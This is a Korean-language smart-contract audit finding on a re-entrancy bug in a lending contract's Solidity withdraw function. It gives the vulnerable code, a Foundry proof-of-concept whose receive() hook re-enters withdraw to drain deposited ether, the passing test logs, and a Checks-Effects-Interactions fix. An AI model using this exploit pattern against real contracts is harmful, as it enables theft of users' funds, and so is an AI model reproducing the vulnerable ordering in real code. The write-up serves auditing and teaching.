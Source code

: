 # withdraw re-entrancy를 통한 담보 인출

## 설명

<aside>

### **키워드 : Vulnerability - Re-entrancy**

### **심각도 : Critical**

변수를 변화시키기 전에 call을 하기 때문에 re-entrancy를 활용하여 예치했던 본인의 ether와 대출금을 모두 인출하여 150%의 이득을 취할 수 있다.

</aside>

```solidity
uint256 borrowedETH = ((participateBooks[msg.sender].usdc_borrow *
    2) / _orcale.getPrice(address(0x0))) * 1e18;

require(
    participateBooks[msg.sender].eth_balance - borrowedETH >= amount
);

(bool success, ) = payable(msg.sender).call{value: amount}("");

participateBooks[msg.sender].eth_balance -= amount;
```

`participateBooks[msg.sender].eth_balance` 값을 비교한 뒤 값의 변화를 적용시키지 않고 call을 먼저 호출한다. 이로 인해 re-entrancy를 통해 ether를 원하는 만큼 전송할 수 있게 된다.

`participateBooks[msg.sender].eth_balance` 의 값이 변화하지 않으니 원하는 만큼 re-entrancy할 수 있다. 하지만 원하는 만큼 인출할 수는 없는데, call 이후 존재하는 `participateBooks[msg.sender].eth_balance -= amount;` 에 의해 내가 가진 이더보다 많이 인출할 경우 integer underflow가 발생할 수 있기 때문이다. revert가 나면 모든 상태 변화가 rollback 되므로, 해당 취약점으로는 최대 내가 예치한(담보로 맡긴)이더까지 인출할 수 있는 것이다.

## PoC

```solidity
function testPOC() external {
        vm.deal(address(this), 100000000 ether);
        lending.deposit{value: 100000000 ether}(address(0x00), 100000000 ether);
        dreamOracle.setPrice(address(0x0), 1 ether);

        console.log("before usdc", usdc.balanceOf(address(this)));
        (bool success, ) = address(lending).call(
            abi.encodeWithSelector(
                DreamAcademyLending.borrow.selector,
                address(usdc),
                50000000 ether
            )
        );
        console.log("after usdc", usdc.balanceOf(address(this)));
        count = 9;

        usdc.approve(address(lending), type(uint256).max);
        lending.withdraw(address(0x00), 10000000 ether);
        console.log(
            "Attack Result(usdc, ether), Lending's balance : ",
            usdc.balanceOf(address(this)),
            address(this).balance,
            address(lending).balance
        );
    }

    receive() external payable {
        while (count > 0) {
            --count;
            console.log("balance:", address(this).balance);
            lending.withdraw(address(0x00), 10000000 ether);
        }
    }
```

```solidity
Running 1 test for test/LendingTest.t.sol:Testx
[PASS] testPOC() (gas: 350645)
Logs:
  before usdc 100000000000000000000000000
  after usdc 100000000000000000000000000
  balance: 10000000000000000000000000
  balance: 20000000000000000000000000
...
  balance: 80000000000000000000000000
  balance: 90000000000000000000000000
  Attack Result(usdc, ether), Lending's balance :  100000000000000000000000000 100000000000000000000000000 1
```

현재 대출 기능이 완벽하게 구현되지 않아 정상적으로 동작하지 않기에 단순히 예치금을 다시 탈취하는 re-entrancy를 수행하는 PoC이다.

하지만 로직상 결국 `Check-Effects-Interactions` 가 아닌 `Check-Interactions-Effects` 순으로 구현되어 있기 때문에 이는 취약점으로 발현될 수 있다.

## 파급력

취약점을 악용한다면 최대 150%(예치금 100 + 대출 50)를 탈취할 수 있게 된다.

150% 보다 더 많은 금액을 탈취하려고 시도하면 이후 로직에 의해 integer underflow가 발생하여 revert가 일어나 rollback되기에 150%보다 더 많은 금액을 탈취할 수는 없지만 이를 수 차례 반복하면 사실상 무한정으로 인출이 가능한 것이나 다름없다.

Lending서비스의 담보물을 대출 상태와 관계 없이 출금 가능하기에 위험도를 매우 높음으로 판단하였다.

## 해결 방법

```solidity
require(
    participateBooks[msg.sender].eth_balance - borrowedETH >=
        amount
);

participateBooks[msg.sender].eth_balance -= amount;
(bool success, ) = payable(msg.sender).call{value: amount}("");
```

변수에 변화한 값을 먼저 적용시킨 뒤 call을 하여 *`Checks-*Effects-Interactions` 패턴으로 작성한다면 re-entrancy를 통한 허용된 ether보다 많은 ether 출금을 막을 수 있게 된다.
